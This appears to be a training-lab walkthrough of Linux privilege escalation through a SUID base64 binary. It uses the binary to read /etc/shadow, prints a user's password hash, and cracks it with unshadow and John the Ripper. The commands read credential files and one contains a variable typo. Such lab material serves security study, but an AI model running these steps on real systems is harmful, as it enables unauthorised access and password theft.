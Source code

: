 This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

LFILE=file\_to\_read

./base64 "$LFILE" | base64 --decode

* base64 SUID bit set does not drop the elevated privileges and may be abused to access the file system.
  * base64 is owned by root.
  * Reading and editing of files at a higher privilege level than the current user is possible.
* Two basic options for privilege escalation.
  * Reading the /etc/shadow file.
  * Adding the user to /etc/passwd.

### **Read /etc/shadow file** <a href="#plc69bs1nevp" id="plc69bs1nevp"></a>

* find / -type f -perm -04000 -ls 2>/dev/null.
  * /usr/bin/base64 has SUID bit set.

$ LFILE=/etc/shadow

$ /usr/bin/base64 "$LFILE1" | base64 --decode | grep user2

* Prints contents of the /etc/shadow file.

user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::

* Create empty files in SUID folder.

touch ./Desktop/SUID/passwd.txt ./Desktop/SUID/shadow.txt ./Desktop/SUID/passwords.txt

* Copy user2 data from /etc/passwd' into passwd.txt\` file.
* Copy user2 data from /etc/shadow' into shadow.txt\` file.
* unshadow tool creates a file crackable by John the Ripper.

unshadow ./Desktop/SUID/passwd.txt ./Desktop/SUID/shadow.txt > ./Desktop/SUID/passwords.txt

* John the Ripper can return one or several passwords in cleartext with the correct wordlist and a little luck.

john --wordlist=/usr/share/wordlists/rockyou.txt ./Desktop/SUID/passwords.txt

Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"

Use the "--format=HMAC-SHA256" option to force loading these as that type instead

Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"

Use the "--format=sha512crypt-opencl" option to force loading these as that type instead

Using default input encoding: UTF-8

Loaded 1 password hash (sha512crypt, crypt(3) $6$ \[SHA512 256/256 AVX2 4x])

Cost 1 (iteration count) is 5000 for all loaded hashes

